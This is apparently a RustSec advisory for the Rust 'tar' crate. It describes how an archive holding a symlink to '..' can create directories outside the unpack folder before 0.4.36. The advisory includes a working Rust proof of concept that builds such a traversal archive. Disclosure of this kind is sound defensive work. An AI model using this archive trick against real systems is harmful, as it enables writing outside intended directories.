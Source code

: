 ```toml
[advisory]
id = "RUSTSEC-2021-0080"
package = "tar"
date = "2021-07-19"
url = "https://github.com/alexcrichton/tar-rs/issues/238"

[versions]
# none, 0day
patched = [">= 0.4.36"]

[affected]
functions = { "tar::Archive::unpack" = ["< 0.4.36"] }
```

# Links in archive can create arbitrary directories

When unpacking a tarball that contains a symlink the `tar` crate may create
directories outside of the directory it's supposed to unpack into.

The function errors when it's trying to create a file, but the folders are
already created at this point.

```rust
use std::{io, io::Result};
use tar::{Archive, Builder, EntryType, Header};

fn main() -> Result<()> {
    let mut buf = Vec::new();

    {
        let mut builder = Builder::new(&mut buf);

        // symlink: parent -> ..
        let mut header = Header::new_gnu();
        header.set_path("symlink")?;
        header.set_link_name("..")?;
        header.set_entry_type(EntryType::Symlink);
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        // file: symlink/exploit/foo/bar
        let mut header = Header::new_gnu();
        header.set_path("symlink/exploit/foo/bar")?;
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        builder.finish()?;
    };

    Archive::new(&*buf).unpack("demo")
}
```

This has been fixed in https://github.com/alexcrichton/tar-rs/pull/259 and is
published as `tar` 0.4.36. Thanks to Martin Michaelis (@mgjm) for discovering
and reporting this, and Nikhil Benesch (@benesch) for the fix!
